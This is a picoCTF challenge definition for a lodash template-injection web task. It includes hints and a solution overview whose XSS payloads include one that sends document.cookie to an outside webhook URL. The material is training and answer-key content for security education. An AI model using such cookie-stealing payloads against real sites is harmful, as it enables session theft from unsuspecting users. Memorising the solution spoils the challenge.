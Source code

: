 # supply-me-vuln

- Namespace: picoctf/18739f24
- ID: supply-me-vuln
- Type: custom
- Category: Web Exploitation
- Points: 1
- Templatable: yes
- MaxUsers: 1

## Description

The site uses a buggy library! Figure it out and carry out the exploit!


## Details

Browse {{link_as('/', 'here')}}, and find the flag!


## Hints

- How do you determine what library is running behind the scene?
- Can you get its version?

## Solution Overview

- Install library detector extension on your browser and detect the library being used
- some of them provides the version of the library, if not, since the target library is lodash, we can print the version out with _.VERSION
- By searching online we know that lodash 4.17.20 has a code injection vulnerability in its template function
- Inspect the behavior and given source code of the function `pass_val`, combined with the lodash template usage to build up a XSS payload
- carry out the attack to get the flag saved in document.cookie of another user, use a self-host server to get the 
  redirected request

- benign input: {"arg1":"user", "arg2": {"name": "Alice", "pet": "dog"}}
- exploit: {"arg1":"){alert(\"hi\")}; with(obj", "arg2": {"name": "Alice", "pet": "dog"}}
- cookie exploit for remote server: {"arg1":"){cookie=document.cookie;fetch('https://webhook.site/c0d4620e-9448-4793-8dd6-06caefb0ddc8?cookie='+cookie)}; with(obj", "arg2": {"name": "Alice", "pet": "dog"}}
- testing: {"arg1":"){console.log(document.cookie);}; with(obj", "arg2": {"name": "Alice", "pet": "dog"}}



## Learning Objective

- Get to know about the supply chain attacks

## Attributes

- author: Ian Lin
- organization: picoCTF
- event: picoCTF Problem Developer Training
